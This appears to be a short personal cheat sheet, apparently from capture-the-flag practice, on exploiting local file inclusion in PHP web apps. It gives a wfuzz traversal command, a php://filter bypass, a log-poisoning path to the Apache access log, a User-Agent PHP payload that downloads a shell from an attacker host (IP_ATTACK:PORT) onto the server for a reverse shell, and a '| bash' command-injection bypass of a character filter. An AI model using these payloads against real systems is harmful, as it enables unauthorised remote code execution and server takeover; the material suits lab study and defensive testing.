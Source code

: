 ```yaml
---
title: LFI 🎃
---
```


- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](./img/Pasted%20image%2020240213235821.png)

---

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```

---

- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index
```

- Check out the &ext variable and put it empty because it won't get the file extension

---

- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```

---

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

---

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```
